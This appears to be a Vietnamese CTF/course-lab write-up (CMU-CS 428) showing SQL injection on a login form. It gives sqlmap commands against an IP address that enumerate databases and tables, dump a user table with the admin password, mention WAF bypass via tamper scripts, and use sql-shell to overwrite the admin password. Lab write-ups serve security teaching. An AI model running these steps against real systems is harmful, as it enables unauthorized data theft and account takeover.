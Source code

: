 ```yaml
---
title: sql injection - CMU-CS 428 SAIS
date: 2020-08-03T03:20:55.578Z
draft: false
categories:
  - CTF
tags:
  - sqli
  - sqlmap
---
```

Truy cập vào trang web. Ta thấy duy nhất 1 khung login.

![](/img/2020-08-03_10-24.png)

Thử tiêm một đoạn sql vào để kiểm tra khung login này có bị lỗi không

![](/img/2020-08-03_10-31.png)

Thông báo login success, chứng tỏ đoạn sql được thực thi. Tuy nhiên ta không biết được câu query trong mã nguồn là gì vì khi câu sql tiêm vào bị lỗi thì server sẽ trả về như hình mà không có thông tin gì thêm như câu query bị lỗi hay thông tin database server.

![](/img/2020-08-03_10-39.png)

Chúng ta sẽ sử dụng `sqlmap` để khai thác SQL Injection. SQLmap có sẵn các payload để tiêm vào website, dựa trên việc server có trả về lỗi không để dự đoán kết quả và khai thác tiếp.

![](/img/2020-08-03_10-45.png)

Chạy `--sqlmap-shell` để chạy shell riêng của `sqlmap` (tránh việc shell hệ thống lưu lịch sử câu lệnh) và `-v 0` để set verbose về 0 tức `sqlmap` sẽ không in ra những thông báo.
Sau khi vào shell, dùng `-u <url web>` để chọn target. Và ta thấy web sử dụng form để gửi dữ liệu nên ta thêm `--forms` để `sqlmap` nhận dạng form cần tiêm sql. Ta có thể thêm `--batch` để sqlmap tự trả lời các prompts.

```shell
sqlmap-shell> -u https://103.7.177.38/ --forms --batch
```

![](/img/2020-08-03_10-58.png)

Như vậy `sqlmap` đã tự phát hiện form và test từng field trong form để khai thác sql injection. Mặc định khi chúng ta không chọn options nào để khai thác thì `sqlmap` chỉ in ra thông tin cơ bản của Database như tên hệ quản trị và version. Chúng để ý thông báo website đang dùng firewall, chúng ta có thể bypass waf bằng cách dùng `--tamper`. Đọc thêm bài viết [SQLMap Tamper Scripts (SQL Injection and WAF bypass)](https://medium.com/@drag0n/sqlmap-tamper-scripts-sql-injection-and-waf-bypass-c5a3f5764cb3) để biết thêm về tác dụng tamper script.

Giờ chúng ta thử khai thác thêm như in ra các tên databases, ta dùng `--dbs`

```shell
sqlmap-shell> -u https://103.7.177.38/ --forms --batch --dbs
```

![](/img/2020-08-03_11-06.png)

Thêm `--current-db` để biết web đang dùng database nào.

```shell
sqlmap-shell> -u https://103.7.177.38/ --forms --batch --current-db
```

![](/img/2020-08-03_11-09.png)

Tiếp tục dùng `-D <tên database>` để chọn database cần khai thác và `--tables` để in ra hết tên tables nằm trong database. Ở đây database là `labsql` mà ta đã tìm được trước đó.

```shell
sqlmap-shell> -u https://103.7.177.38/ --forms --batch -D labsql --tables
```

![](/img/2020-08-03_11-14.png)

Chỉ có 1 table. Chọn table bằng `T <tên table>` và in ra columns `--columns` hoặc dump hết data `--dump`.

```shell
sqlmap-shell> -u https://103.7.177.38/ --forms --batch -D labsql -T user --columns --dump
```

![](/img/2020-08-03_11-17.png)

Như vậy là ta có thể thấy được password của admin là `mypasssword#@!$1234`.

Sau khi dump xong ta có thể dùng `--sql-shell` để truy cập vào hệ quản trị và chỉnh sửa. Ví dụ ở đây mình đã sửa password lại.

```shell
sqlmap-shell> -u https://103.7.177.38/ --forms --batch --sql-shell

...

sql-shell> update [labsql].[dbo].[user] set password="Ưhat súp" where username='admin';
```

Và đây là kết quả.

![](/img/2020-08-03_17-08.png)